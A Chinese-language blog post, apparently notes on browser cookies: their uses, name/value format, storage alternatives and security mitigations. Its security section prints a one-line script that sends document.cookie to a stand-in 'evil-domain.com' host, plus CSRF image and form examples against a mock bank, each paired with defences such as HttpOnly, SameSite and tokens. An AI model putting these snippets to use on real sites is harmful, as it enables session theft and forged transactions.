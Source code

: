 ```yaml
---
date: 22:42 2023/3/22
title: cookieStore 的使用
tags:
- JS
description: document.cookie 接口是同步的、单线程的和阻塞的。cookieStore 是异步的，基于 promise 的，因此不会阻塞事件循环。
---
```

## 介绍
`Cookie` 是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。也是一个 HTTP 请求标头，其中含有先前由服务器通过 `Set-Cookie` 响应标头发送或通过 JavaScript 的 `document.cookie` 方法设置，然后存储到本地的 Cookie。

`Set-Cookie` 是一个 HTTP 响应标头，被用来由服务器端向浏览器发送 cookie，浏览器可在后续的请求中将其发送回服务器。服务器要发送多个 cookie，则应该在同一响应中发送多个 Set-Cookie 标头。

可以通过在浏览器的隐私设置里面设置为禁用 cookie，来阻止接收发送和本地设置。

Cookie 主要用于以下三个方面：
- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

## 形式
一系列的名称/值对，形式为 `name=value; name2=value2; name3=value3`。名称/值对之间用分号和空格（'; '）隔开。

## Cookie 存储
Cookie 曾用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段。由于服务器指定 Cookie 后，浏览器的每次请求都会携带 Cookie 数据，会带来额外的性能开销（尤其是在移动环境下）。

在浏览器中存储数据的新特性方法是 Web Storage API。`window.sessionStorage` 和`window.localStorage` 属性与持续时间中的会话和永久 cookie 相对应，但是存储限制比 cookie 大，并且永远不会发送到服务器。

可以使用 IndexedDB API 或基于它构建的库来存储更多结构化的数据。

## 安全
1. 如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
使用 HttpOnly 属性可防止通过 JavaScript 访问 cookie 值，从而在一定程度上缓解此类攻击。

2. 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短。
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；

3. `Set-Cookie` 响应标头 `SameSite` 属性设置为 `Strict` 或 `Lax`，确保不与跨域请求一起发送身份验证 cookie。例如，用户登陆了银行网站 `your-bank.com`，银行服务器发来了一个 Cookie：`Set-Cookie:id=a3fWa;`。用户后来又访问了恶意网站 `malicious.com`，上面有一个表单。
```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```
用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的转账请求。为了防止这种攻击，表单一般都带有一个随机 `token`，告诉服务器这是正确请求。
```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```
